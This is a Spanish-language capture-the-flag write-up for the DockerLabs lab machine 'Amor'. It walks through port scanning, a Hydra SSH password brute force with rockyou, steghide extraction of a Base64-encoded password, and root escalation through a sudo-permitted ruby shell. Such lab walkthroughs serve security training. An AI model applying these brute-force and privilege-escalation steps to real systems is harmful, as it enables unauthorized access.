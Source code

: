 # 🖥️ Writeup - Amor 

**Plataforma:** Dockerlabs  
**Sistema Operativo:** Linux  

# INSTALACIÓN

Descargamos el `.zip` de la máquina desde DockerLabs a nuestro entorno y seguimos los siguientes pasos.

```bash 
unzip amor.zip
```
La máquina ya está descomprimida y solo falta montarla.

```bash
sudo bash auto_deploy.sh amor.tar
``` 
Info:

```

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
``` 

Una vez desplegada, cuando terminemos de hackearla, con un `Ctrl + C` se eliminará automáticamente para que no queden archivos residuales.

# ESCANEO DE PUERTOS

A continuación, realizamos un escaneo general para comprobar qué puertos están abiertos y luego uno más exhaustivo para obtener información relevante sobre los servicios.

```bash
nmap -n -Pn -sS -sV -p- --open --min-rate 5000 172.17.0.2
``` 

```bash
nmap -n -Pn -sCV -p22,80 --min-rate 5000 172.17.0.2
```

Info:
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-13 15:38 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000037s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 7e:72:b6:8b:5f:7c:23:64:dc:15:21:32:5f:ce:40:0a (ECDSA)
|_  256 05:8a:a7:27:0f:88:b9:70:84:ec:6d:33:dc:ce:09:6f (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: SecurSEC S.L
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.74 seconds
```

Tenemos abiertos los puertos `22` y `80`.

Accedemos por `HTTP` y, entre otras cosas, nos encontramos con el siguiente mensaje:

```
¡Importante! Despido de empleado

Juan fue despedido de la empresa por enviar un correo con la contraseña a un compañero.

Firmado: Carlota, Departamento de ciberseguridad
```

Podemos deducir que `carlota` es un usuario válido del sistema de la empresa, mientras que `juan` puede que ya no lo sea porque lo han despedido.

Como no encontramos nada haciendo `fuzzing` de directorios, intentamos un ataque de fuerza bruta sobre el puerto `SSH` con el usuario `carlota`.

# FUERZA BRUTA

```bash
hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 60
```

Info:
```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-09-13 15:44:39
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 60 tasks per 1 server, overall 60 tasks, 14344399 login tries (l:1/p:14344399), ~239074 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: carlota   password: babygirl
```

Encontramos credenciales válidas para `carlota` : `babygirl`.

Accedemos por `SSH`.

```bash
ssh carlota@172.17.0.2
```

# ESCALDA DE PRIVILEGIOS

Una vez dentro, comprobamos permisos `sudo` y `SUID`.

Pero no encontramos ninguna vía de escalada.

Buscando entre los archivos de `carlota` encontramos una imagen que podría contener información adicional, así que la transferimos a nuestra máquina `Kali`.

```bash
scp carlota@172.17.0.2:/home/carlota/Desktop/fotos/vacaciones/imagen.jpg .
```

Info:
```
carlota@172.17.0.2's password: 
imagen.jpg                                                            100%   51KB  29.6MB/s   00:00
```

Intentamos extraer información oculta de la imagen:

```bash
steghide extract -sf imagen.jpg 
```

Se nos pide una passphrase y la dejamos en blanco.

Info:
```
Enter passphrase: 
wrote extracted data to "secret.txt".
```

Conseguimos extraer información de la imagen, que ahora se encuentra en un archivo `secret.txt`.

```
ZXNsYWNhc2FkZXBpbnlwb24=
```

Al revisar su contenido obtenemos un string en `Base64`, que debemos decodificar.

```bash
echo "ZXNsYWNhc2FkZXBpbnlwb24=" | base64 -d
```
Info:
```
eslacasadepinypon
```

Probamos a utilizar esta posible contraseña para autenticarnos como el usuario `oscar`, que habíamos visto anteriormente en el archivo `/etc/passwd`.

```bash
su oscar
```

Introducimos la contraseña `eslacasadepinypon` y, efectivamente, conseguimos pivotar al usuario `oscar`.

Volvemos a comprobar permisos `sudo` y `SUID`.

```bash
sudo -l
```

Info:
```
Matching Defaults entries for oscar on 8deed0004059:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User oscar may run the following commands on 8deed0004059:
    (ALL) NOPASSWD: /usr/bin/ruby
```

Verificamos que podemos ejecutar el binario `ruby` con privilegios de `root`, lo que aprovechamos para escalar privilegios de esta manera:

```bash
sudo ruby -e 'exec "/bin/sh"'
```

Info:
```
# whoami
root
# 
```

Ya somos root!